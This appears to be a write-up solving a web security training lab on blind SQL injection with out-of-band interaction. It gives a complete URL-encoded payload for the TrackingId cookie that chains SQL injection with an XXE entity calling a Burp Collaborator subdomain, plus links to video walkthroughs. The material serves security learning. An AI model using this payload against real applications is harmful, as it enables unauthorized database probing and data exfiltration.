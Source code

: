# Lab 15: Blind SQL injection with out-of-band interaction
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

## Solution
> Manual Exploitation
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.
2. Modify the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows: `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`.
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified TrackingId cookie.

> Automating the attack: [Script]()

## Video Solution
1. Manual Exploitation: [Rana Khalil's YT video](https://youtu.be/-t4cr5uRzzA)
2. Automating the attack: [Rana Khalil's YT video](https://www.youtube.com/watch?v=soPDfYl2Ef8&list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf&index=16)
